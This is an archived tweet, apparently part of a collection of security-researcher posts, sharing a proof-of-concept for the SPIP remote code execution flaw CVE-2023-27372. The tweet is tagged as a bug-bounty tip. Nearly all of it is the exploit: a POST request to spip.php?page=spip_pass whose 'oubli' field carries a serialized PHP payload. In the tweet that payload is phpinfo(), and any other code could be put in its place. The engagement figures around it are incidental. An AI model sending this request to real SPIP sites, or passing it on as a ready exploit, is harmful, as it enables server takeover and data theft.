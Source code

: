 <td><img src="pictures/1e6023174c48b956b14e85a064ee0a4192b8320e349647c826c231d41c66f099.jpg" alt="1e6023174c48b956b14e85a064ee0a4192b8320e349647c826c231d41c66f099.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>149</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1678405071200047116 _at 2023-07-10, 14:05:26_**
<blockquote>
SPIP RCE CVE-2023-27372 #BugBounty 
Post:
hxxp://host/spip.php?page=spip_pass
data:
page=spip_pass&amp;formulaire_action=oubli&amp;formulaire_action_args=E1nK0hfOPllDtCUbG6L94SlEpZi7Vz17IKUbf0ZB6ET0WbEHeXrw9tNNCEWjm0ac0%2F4DuboKIZvygjRh&amp;oubli=s:19:"&lt;?php phpinfo(); ?&gt;";&amp;nobot=
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>114</code></td>
</tr></table>

---